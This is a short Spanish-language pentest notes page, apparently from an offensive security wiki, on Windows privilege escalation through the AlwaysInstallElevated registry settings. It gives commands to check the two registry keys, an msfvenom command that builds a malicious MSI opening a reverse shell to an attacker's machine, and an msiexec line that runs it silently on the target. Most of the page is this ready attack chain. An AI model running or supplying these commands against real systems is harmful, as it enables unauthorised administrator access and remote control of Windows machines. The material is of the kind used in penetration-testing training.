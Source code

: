 # Windows AlwaysInstallElevated setup files (aka .msi files)

## **Los archivos de instalación de Windows AlwaysInstallElevated** (también conocidos como archivos .msi)

Se ejecutan con el nivel de privilegio del usuario que lo inicia. Sin embargo, estos pueden configurarse para ejecutarse con mayores privilegios si la instalación requiere privilegios de administrador. Esto podría permitirnos generar un archivo MSI malicioso que se ejecutaría con privilegios de administrador.

Este método requiere que se establezcan dos valores de registro. Puede consultarlos desde la línea de comando usando los comandos a continuación.

{% code overflow="wrap" %}
```powershell
reg query HKEY_CURRENT_USER\\Software\\Policies\\Microsoft\\Windows\\Installer
reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer
```
{% endcode %}

💡 Recuerde, para poder explotar esta vulnerabilidad, ambos deben estar configurados. De lo contrario, la explotación no será posible.

Si están configurados, puede generar un archivo .msi malicioso usando `msfvenom`, como se ve a continuación.

{% code overflow="wrap" %}
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```
{% endcode %}

* Configurar Metasploit Handler en escucha del puerto configurado.
* Transferir el archivo .msi
* Ejecutar el instalador con el siguiente comando en el sistema Objetivo y recibir el shell inverso.

```
C:\\Users\\user\\Desktop>msiexec /quiet /qn /i C:\\Windows\\Temp\\malicious.msi
```

****
